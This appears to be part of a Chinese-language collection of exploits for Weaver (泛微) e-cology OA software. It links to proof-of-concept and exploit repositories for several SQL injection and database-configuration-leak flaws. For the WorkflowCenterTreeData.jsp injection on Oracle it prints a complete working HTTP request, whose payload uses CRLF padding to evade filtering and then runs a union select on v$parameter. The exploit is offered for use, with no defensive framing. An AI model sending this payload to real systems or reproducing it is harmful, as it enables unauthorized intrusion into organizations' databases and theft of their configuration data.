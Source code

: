 **ecology8_mobile_sql_inject**
- POC | Payload | exp
    - [ecology8_mobile_sql_inject](https://github.com/orleven/Tentacle/blob/6e1cecd52b10526c4851a26249339367101b3ca2/script/ecology/ecology8_mobile_sql_inject.py)

**SSV-98083 | 泛微 e-cology OA 前台SQL注入**
- POC | Payload | exp
    - [AdministratorGithub/e-cology-OA-SQL](https://github.com/AdministratorGithub/e-cology-OA-SQL)

**泛微 OA WorkflowCenterTreeData 接口注入漏洞(限 oracle 数据库)**
- POC | Payload | exp
    ```
    POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
    Host: ip:port
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 2236
    Connection: close
    Upgrade-Insecure-Requests: 1

    formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
    ```

**泛微 ecology OA 系统接口存在数据库配置信息泄露漏洞**
- 文章
    - [泛微ecology OA数据库配置信息泄露漏洞复现](https://mp.weixin.qq.com/s/u8GIfMBRZFAN3HANSSSgQA)

- POC | Payload | exp
    - [jas502n/DBconfigReader](https://github.com/jas502n/DBconfigReader)
    - [NS-Sp4ce/Weaver-OA-E-cology-Database-Leak](https://github.com/NS-Sp4ce/Weaver-OA-E-cology-Database-Leak)

---